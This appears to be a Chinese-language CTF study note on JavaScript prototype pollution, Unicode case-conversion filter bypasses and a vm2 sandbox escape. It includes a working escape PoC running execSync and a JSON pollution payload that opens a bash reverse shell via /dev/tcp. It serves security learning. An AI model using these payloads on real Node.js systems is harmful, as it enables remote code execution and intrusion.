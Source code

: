 **思路：js审计如果看见merge，clone函数，可以往原型链污染靠**

**定义：如果可以控制或者修改一个对象的原型，那么可以将修改的结果影响到：同一个类、父类、子类的对象，这种攻击方式就叫原型链污染**

```js
// 其案例类型为：
	let foo = {bar: 1}
    console.log(foo.bar)   == 1
    foo.__proto__.bar = 2
    console.log(foo.bar)   == 1 
    let zoo = {}
    console.log(zoo.bar)   == 2

```

==总结技巧==

-   原型链污染属于前端漏洞应用，基本上需要源码审计功力来进行解决；
    -   找到`merge()`,`clone()`只是确定漏洞的开始
-   进行审计需要以**达成RCE为主要目的**。通常`exec, return`等等都是**值得注意的关键字**。
-   题目基本是以弹shell为最终目的。目前来看很多Node.js传统弹shell方式并不适用.wget,curl,以及我两道题都用到的nc比较适用。

### 1、javascript大小写特性

-   **使用js中的toUpperCase()函数打印所有的字母可以发现会出现两个奇怪的字符**：`ı、ſ`。	

```js
 这两个字符的“大写”是I和S。
 也就是说"ı".toUpperCase() == 'I'，"ſ".toUpperCase() == 'S'。
 通过这个小特性可以绕过一些限制。
```

-   **同样，toLowerCase也有同样的字符**：

```js
输出的"K"的“小写”字符是k，也就是"K".toLowerCase() == 'k'. 
```

比如这题会使用到javascript的大小写：**[GYCTF2020]Ez_Express**

### 2、vm2

题目：**[HGAME 2023 week4]Shared Diary**

#### vm2的沙箱逃逸：[HZNUCTF 2023 final]eznode

**详细介绍了原型链污染**

**vm2 原型链污染导致沙箱逃逸 poc：**

```js
let res = import('./foo.js')
res.toString.constructor("return this")().process.mainModule.require("child_process").execSync("whoami").toString();

```

```nginx
# plaload
{"shit":1,"__proto__":{"shellcode":"let res = import('./app.js'); res.toString.constructor(\"return this\") ().process.mainModule.require(\"child_process\").execSync('bash -c \"bash -i >& /dev/tcp/ip/port 0>&1\"').toString();"}} 

```
